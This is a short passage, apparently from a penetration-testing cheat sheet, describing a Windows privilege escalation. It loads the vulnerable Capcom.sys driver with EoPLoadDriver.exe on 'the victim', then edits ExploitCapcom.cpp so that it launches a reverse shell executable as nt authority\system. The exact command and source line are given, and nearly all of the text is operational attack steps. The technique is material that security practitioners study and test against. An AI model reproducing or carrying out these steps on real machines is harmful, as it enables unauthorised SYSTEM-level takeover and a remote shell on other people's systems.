# Loading the driver

Transport all binaries (Capcom.sys, EoPLoadDriver.exe, ExploitCapcom.exe) to the victim.

Load the driver with EoPLoadDriver.exe.\
`EoPLoadDriver.exe System\\CurrentControlSet\\MalService C:\\Users\\Username\\Desktop\\Capcom.sys`

Edit the ExploitCapcom.cpp file before compilation. Change the path of the binary to be run as nt authority\system.\
`TCHAR CommandLine[] = TEXT("C:\\Users\\Usersname\\Desktop\\revshell.exe");`

Compile ExploitCapcom and execute on the victim.
